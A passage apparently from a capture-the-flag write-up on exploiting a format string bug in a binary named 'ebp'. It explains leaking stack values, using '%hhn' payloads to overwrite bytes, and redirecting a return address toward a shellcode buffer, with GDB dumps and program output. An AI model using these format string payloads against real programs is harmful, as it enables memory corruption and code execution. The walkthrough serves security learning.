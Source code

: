```
0xffffd470: 0x00000000  0x00000000  0x00000017  0x08048557
0xffffd480: 0x0804a080  0x00000400  0xf7fb2440  0xf7fb1ff4
0xffffd490: 0x08048580  0x00000000  0xffffd518  0xf7e68e46
0xffffd4a0: 0x00000001  0xffffd544  0xffffd54c  0xf7fdb860
0xffffd4b0: 0xf7ff4821  0xffffffff  0xf7ffcff4  0x080482b1
```
Success, we have overwritten the value at `0xffffd47` with the value `0x17`. This is the first step of the puzzle. In the actual exploit, we'll refrain from overwriting the entire value, and just overwrite the least significant byte(s), using a format string length modifier: "h" overwrites 2 bytes, "hh" overwrites 1 byte. 

Ok, so we know how to overwrite that value; now we need to know what to overwrite it with (remember, ASLR means we can't rely on any addresses we get from GDB). The adresses of the stack might change, but they are still maintain the same relative distance to each other. The values `0xffffd478` and `0xffffd498` (from GDB) have the same difference as the values `0xffa1fe38`and `0xffa1fe58` (from normal execution above). This means we can calculate the target address from the values we see. In GDB, our chosen values is `0xffffd478` and the target address is `0xffffd45c`. If we can read that value during normal execution, we can get the target address by subtracting `0x1c` from it.

Finally, the format string to overwrite the last byte with an arbitrary value (let's say "ab") is: `%0171x%4$hhn`. The first part prints 171 (= `0xab`) characters to stdout, increasing the bytes written so far. The second part skips to the 4th argument ("4$") and overwrites the last byte ("hh") with the number of bytes written so far ("%n").  
Example:
```
$ ./ebp
%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
f7677ada.f7777440.0804a080.ffb35238.0804852c.00000001.00000000.0804a080.f7776ff4.00000000.00000000.ffb35258

%0171x%4$hhn
0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000f7677ada

%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
f7677ada.f7777440.0804a080.ffb35238.0804852c.00000001.00000000.0804a080.f7776ff4.00000000.00000000.ffb352ab
```
The value that used to be `0xffb35258` is now `0xffb352ab`.

# Step 2: Overwriting the target address
The second part is using the address we put on the stack (at the 12th argument) to overwrite the target value. It currently holds the return address `0x0804852c`, but we want to point in to our buffer `0x0804a080`. Again, there's no need to overwrite the entire value, we just need to change the last 2 bytes. While we are overwriting this, we also have to include shellcode in the buffer. Luckily, this time we won't have to calculate any addresses, because the buffer address is constant. We can do a test run (without shellcode), but if we overwrite the return address, we'll need a core dump to verify if we've overwritten it correctly:
```
$ ulimit -c unlimited
$ ./ebp
%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
f76afada.f77af440.0804a080.ffc93e98.0804852c.00000001.00000000.0804a080.f77aeff4.00000000.00000000.ffc93eb8

%0124x%4$hhn
00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000f76afada

%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
f76afada.f77af440.0804a080.ffc93e98.0804852c.00000001.00000000.0804a080.f77aeff4.00000000.00000000.ffc93e7c

```
